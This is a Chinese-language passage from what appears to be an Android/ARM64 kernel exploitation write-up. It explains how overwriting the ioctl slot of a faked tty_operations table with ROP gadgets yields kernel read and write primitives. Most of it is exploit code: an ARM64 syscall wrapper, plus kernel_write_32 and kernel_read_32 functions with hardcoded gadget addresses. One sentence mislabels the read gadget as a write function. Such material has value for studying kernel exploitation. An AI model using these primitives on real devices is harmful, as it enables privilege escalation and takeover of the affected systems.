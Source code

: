如上，ioctl 函数在 **tty_operations** 结构体里偏移 12 个指针，当我们用 **ROP_WRITE** 覆盖这个位置时，可以得到一个内核地址写函数。

```c

#define ioctl_syscall(n, efd, cmd, arg) \
        eabi_syscall(n, efd, cmd, arg)
ENTRY(eabi_syscall)
        mov     x8, x0
        mov     x0, x1
        mov     x1, x2
        mov     x2, x3
        mov     x3, x4
        mov     x4, x5
        mov     x5, x6
        svc     #0x0
        ret
END(eabi_syscall)

```

```c

/* 
 ＊　rop write
 * ffffffc000671a58:       b9000041        str     w1, [x2]
 * ffffffc000671a5c:       d65f03c0        ret
 */
#define ROP_WRITE               0xffffffc000671a58

static int kernel_write_32(unsigned long addr, unsigned int val)
{
        unsigned long arg;

        *(unsigned long*)(fake_ptm_fops + 12 * 8) = ROP_WRITE;

        arg = addr;
        ioctl_syscall(__NR_ioctl, fake_fd, val, arg);
        return 0;
}

```

同理，当我们用 **ROP_READ** 覆盖这个位置时，可以得到一个内核地址写函数。

```c
/*
 * rop read
 * ffffffc000300060:       f9405440        ldr     x0, [x2,#168]
 * ffffffc000300064:       d65f03c0        ret
 */
#define ROP_READ                0xffffffc000300060

static int kernel_read_32(unsigned long addr, unsigned int *val)
{
        int ret;
        unsigned long arg;

        *(unsigned long*)(fake_ptm_fops + 12 * 8) = ROP_READ;
        arg = addr - 168;
        errno = 0;
        ret = ioctl_syscall(__NR_ioctl, fake_fd, 0xdeadbeef, arg);
        *val = ret;
        return 0;
}

```
